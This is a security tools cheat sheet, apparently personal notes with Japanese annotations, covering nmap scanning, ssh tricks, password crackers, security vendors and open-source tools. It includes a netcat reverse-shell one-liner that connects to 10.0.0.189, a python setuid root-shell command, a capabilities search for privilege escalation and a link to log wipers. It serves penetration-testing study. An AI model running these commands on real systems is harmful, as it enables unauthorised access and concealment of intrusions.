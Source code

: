 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Linux

https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/7/html/security_guide/sec-using-aide

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://app.netlas.io  

[Finding Vulnerable Systems Across the Internet with Netlas.io](https://www.hackers-arise.com/post/open-source-intelligence-osint-finding-vulnerable-systems-across-the-internet-with-netlas-io)

https://www.exabeam.com/

https://www.adaptive-shield.com/

https://regexr.com/

https://houdini.secsi.io/

https://github.com/Datadog/stratus-red-team/

https://snyk.io/

https://www.cisa.gov/free-cybersecurity-services-and-tools

https://www.blueteamsacademy.com/top20/

### OSS

https://github.com/awslabs/git-secrets

https://github.com/sobolevn/git-secret

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://github.com/trufflesecurity/truffleHog

https://github.com/tillson/git-hound

https://github.com/decalage2/oletools

https://github.com/decalage2/ViperMonkey

https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py

https://github.com/DidierStevens/DidierStevensSuite/blob/master/zipdump.py

https://github.com/makenowjust-labs/recheck

https://github.com/KathanP19/HowToHunt

https://github.com/bridgecrewio/checkov

https://github.com/Lissy93/personal-security-checklist

https://github.com/decalage2/awesome-security-hardening

https://github.com/curiefense/curiefense

https://github.com/containers/bubblewrap

https://github.com/trufflesecurity/trufflehog

https://github.com/dropbox/zxcvbn

https://github.com/GitGuardian/ggshield
